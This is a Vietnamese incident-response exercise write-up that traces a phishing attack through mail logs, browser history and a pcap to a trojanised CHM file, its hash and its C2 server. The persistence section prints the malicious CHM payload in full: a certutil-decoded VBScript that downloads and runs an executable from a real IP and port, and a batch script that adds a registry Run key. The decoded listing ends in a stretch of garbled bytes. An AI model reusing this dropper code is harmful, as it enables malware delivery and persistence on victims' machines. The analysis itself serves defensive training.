








INJECT 02
-------------------------------------------------------------------------------------------------------------------------

Hình thức tấn công xâm nhập (100)
Kẻ tấn công đã dùng hình thức nào để tấn công, xâm nhập vào tổ chức? Lưu ý: Trả lời bằng số và chỉ được trả lời 1 lần.
1. Khai thác lỗ hổng phần mềm qua CVE
2. Khai thác lỗ hổng web
3. Bruteforce mật khẩu quản trị và khai thác lỗ hổng dịch vụ nội bộ
4. Phishing qua email
5. Tấn công tài khoản sa vủa MSSQL và thực hiện xp_cmdshell

Trả lời: 
- Tài liệu đính kèm gồm 2 file: History + workspace_mail_logs.xlsx
- Mở file workspace_mail_logs.xlsx phân tích. Sơ bộ đây là file log của mail, tiếp tục ta tìm được email chứa nội dung có file tải xuống là đẹp.
- Mục đích diễn tập này là về cuộc tấn công apt. Tấn công apt này phương án dò quét khai thác rấ t là tốn thời gian. Việc sử dụng kĩ thuật social engineering thông qua việc spam email có vẻ đỡ tốn tiền hơn. 
- Đồng thời nhắm đến người dùng thiếu kiến thức về bảo mật. Việc dò quét xâm nhập qua các hệ thống IDS/IPS, SIEM,... Rất mất thời gian.

- Nhìn ở phía dòng 6,7 ta thấy 1 nội dung chứa đường dẫn tải xuống, lại còn đường dẫn IP:PORT. 
=> câu trả lời 4.
-------------------------------------------------------------------------------------------------------------------------
Email của nạn nhân - người bị tấn công (100): 
- eve@woof.com
-------------------------------------------------------------------------------------------------------------------------
Email của kẻ tấn công (100):
- anderson.daniel.A@proton.me

-------------------------------------------------------------------------------------------------------------------------
Tên tệp nghi ngờ là mã độc (100)
- manual.zip
-------------------------------------------------------------------------------------------------------------------------
Nạn nhân đã tìm kiếm các thông tin gì?
Lựa chọn các mục sau:
1. ChatGPT
2. Proton
3. Gmail
4. Facebook
5. Github

Trả lời: 
- Tiếp tục mở file history còn lại 

- Tìm kiếm vào mục  keyword_search_iterms

=> câu trả lời là 1,3 
-------------------------------------------------------------------------------------------------------------------------
Password của tệp nén (100)


=> share
-------------------------------------------------------------------------------------------------------------------------
Tên người dùng của máy tính nghi ngờ nhiễm mã độc (100)
- 
- tìm  ở downloads thấy đường dẫn tải xuống: C:\Users\user\Downloads\manual.zip. 
=> user
-------------------------------------------------------------------------------------------------------------------------
INJECT 03
-------------------------------------------------------------------------------------------------------------------------
Mã hash của tệp mã độc (100)
Vui lòng thu thập tệp mã độc (không phải tệp nén).

Mở file pcap ra. File->Export Object-> HTTP
 
unzip (mật khẩu là share).

Ra được file manual.chm -> up lên virustotal

Trong đó BitDefender và Kaspersky đều nhận định là trojan.

mã hash: 860f86601bc18dd205a5edc0d57a658d
-------------------------------------------------------------------------------------------------------------------------
Địa chỉ của C2 Server được sử dụng để nhận thông tin (100)
Trả lời địa chỉ của C2 server theo dạng: IP:PORT

43.201.253.28:5000
-------------------------------------------------------------------------------------------------------------------------
Kẻ tấn công đã duy trì sự hiện diện (persistence) (100)
Hãy gửi đường dẫn của tệp chương trình mà kẻ tấn công sử dụng làm backdoor duy trì sự hiện diện.
- Một trong những cách mở file chm là dùng 7zip

Sau khi giải nén ra. Truy cập vào file html.


Thực thi mã độc qua một đối tượng <object> và script chạy lệnh bằng cách tạo shortcut và kích hoạt nó thông qua dòng shortcut.Click();.
```
<param name="Item1" value=",cmd, /c echo T3B0aW9uIEV4cGxpY2l0CgpEaW0gc3RyVVJMLCBzdHJUZW1wUGF0aCwgc3RyU2F2ZVRvCkRpbSBvYmpYTUwsIG9ialN0cmVhbSwgb2JqU2hlbGwKRGltIFdzaFNoZWxsClNldCBXc2hTaGVsbCA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpCgpEaW0gdGVtcEZvbGRlclBhdGgKdGVtcEZvbGRlclBhdGggPSBXc2hTaGVsbC5FeHBhbmRFbnZpcm9ubWVudFN0cmluZ3MoIiVURU1QJSIpCgpEaW0gYmF0RmlsZVBhdGgKYmF0RmlsZVBhdGggPSB0ZW1wRm9sZGVyUGF0aCAmICJcbWFudWFsLmJhdCIKCldzaFNoZWxsLlJ1biAiIiIiICYgYmF0RmlsZVBhdGggJiAiIiIiLCAwLCBUcnVlCgpTZXQgV3NoU2hlbGwgPSBOb3RoaW5nCgpzdHJVUkwgPSAiaHR0cDovLzQzLjIwMy4xNzMuODE6ODA4MCIKClNldCBvYmpTaGVsbCA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpCnN0clRlbXBQYXRoID0gb2JqU2hlbGwuRXhwYW5kRW52aXJvbm1lbnRTdHJpbmdzKCIlVEVNUCUiKQoKc3RyU2F2ZVRvID0gc3RyVGVtcFBhdGggJiAiXG1lbnVhbC5leGUiCgpTZXQgb2JqWE1MID0gQ3JlYXRlT2JqZWN0KCJNU1hNTDIuU2VydmVyWE1MSFRUUCIpCgpTZXQgb2JqU3RyZWFtID0gQ3JlYXRlT2JqZWN0KCJBRE9EQi5TdHJlYW0iKQpvYmpTdHJlYW0uT3BlbgoKb2JqWE1MLk9wZW4gIkdFVCIsIHN0clVSTCwgRmFsc2UKb2JqWE1MLlNlbmQKCklmIG9ialhNTC5TdGF0dXMgPSAyMDAgVGhlbgogICAgb2JqU3RyZWFtLlR5cGUgPSAxICcgCiAgICBvYmpTdHJlYW0uV3JpdGUgb2JqWE1MLlJlc3BvbnNlQm9keQogICAgb2JqU3RyZWFtLlBvc2l0aW9uID0gMCAKCiAgICBvYmpTdHJlYW0uU2F2ZVRvRmlsZSBzdHJTYXZlVG8sIDEKICAgIG9ialN0cmVhbS5DbG9zZQoKICAgIG9ialNoZWxsLlJ1biBzdHJTYXZlVG8sIDEsIEZhbHNlCgpFbmQgSWYKClNldCBvYmpTdHJlYW0gPSBOb3RoaW5nClNldCBvYmpYTUwgPSBOb3RoaW5nClNldCBvYmpTaGVsbCA9IE5vdGhpbmc= > &quot;%TEMP%\guide.dat&quot; &amp; echo QGVjaG8gb2ZmCnNldGxvY2FsCgpzZXQgInRlbXBQYXRoPSVURU1QJSIKCnNldCAicHJvZ3JhbVBhdGg9JXRlbXBQYXRoJVxndWlkZS52YnMiCgpzZXQgInJlZ0tleU5hbWU9TWFudWFsIgoKcmVnIGFkZCAiSEtDVVxTb2Z0d2FyZVxNaWNyb3NvZnRcV2luZG93c1xDdXJyZW50VmVyc2lvblxSdW4iIC92ICIlcmVnS2V5TmFtZSUiIC9kICJcIiVwcm9ncmFtUGF0aCVcIiIgL2YKCmVuZGxvY2Fs > &quot;%TEMP%\manual.dat&quot; &amp; start /MIN certutil -decode &quot;%TEMP%\guide.dat&quot; &quot;%TEMP%\guide.vbs&quot; &amp; start /MIN certutil -decode &quot;%TEMP%\manual.dat&quot; &quot;%TEMP%\manual.bat&quot; &amp;  timeout /t 1 &amp; start &quot;&quot; &quot;%TEMP%\guide.vbs&quot;">
```
giải mã đoạn base 64:
```
Option Explicit

Dim strURL, strTempPath, strSaveTo
Dim objXML, objStream, objShell
Dim WshShell
Set WshShell = CreateObject("WScript.Shell")

Dim tempFolderPath
tempFolderPath = WshShell.ExpandEnvironmentStrings("%TEMP%")

Dim batFilePath
batFilePath = tempFolderPath & "\manual.bat"

WshShell.Run """" & batFilePath & """", 0, True

Set WshShell = Nothing

strURL = "http://43.203.173.81:8080"

Set objShell = CreateObject("WScript.Shell")
strTempPath = objShell.ExpandEnvironmentStrings("%TEMP%")

strSaveTo = strTempPath & "\menual.exe"

Set objXML = CreateObject("MSXML2.ServerXMLHTTP")

Set objStream = CreateObject("ADODB.Stream")
objStream.Open

objXML.Open "GET", strURL, False
objXML.Send

If objXML.Status = 200 Then
    objStream.Type = 1 ' 
    objStream.Write objXML.ResponseBody
    objStream.Position = 0 

    objStream.SaveToFile strSaveTo, 1
    objStream.Close

    objShell.Run strSaveTo, 1, False

End If

Set objStream = Nothing
Set objXML = Nothing
Set objShell = Nothing*S'^ujZV6f`6WF66WB'FVFUDTR 6WB'&w&FWFVFUwVFRf'2 6WB'&VtWSV &VrFB$5U6gGv&U֖7&6gEvFw57W'&VEfW'6'V"b"W&VtWRR"B%"W&w&FU""`VF6ʮ0ujZ-j0\zn)~u(uꮢ0.םjڮڮ0.ׯnʮ֦Z ۭ_yz1>f]jڮڮ0mjZb.ujjl---LCz-
```
Phân tích mã:
    - Thiết lập môi trường:Đoạn mã sử dụng WScript.Shell và MSXML2.ServerXMLHTTP để tải file từ xa. Mã mở rộng đường dẫn %TEMP% của hệ thống và lưu trữ tạm file .bat và .exe tại đây.
    - Thực thi tập tin BAT:
    File .bat (manual.bat) được tạo và thực thi đầu tiên thông qua WshShell.Run, chạy ẩn trong nền mà không hiện ra cho người dùng thấy (do tham số thứ hai là 0).Tải xuống file thực thi từ xa:
    Đoạn mã lấy file từ URL http://43.203.173.81:8080 và lưu nó thành file menual.exe trong thư mục %TEMP%.
    - Thực thi file EXE: Sau khi tải về, file .exe được chạy bằng objShell.Run.
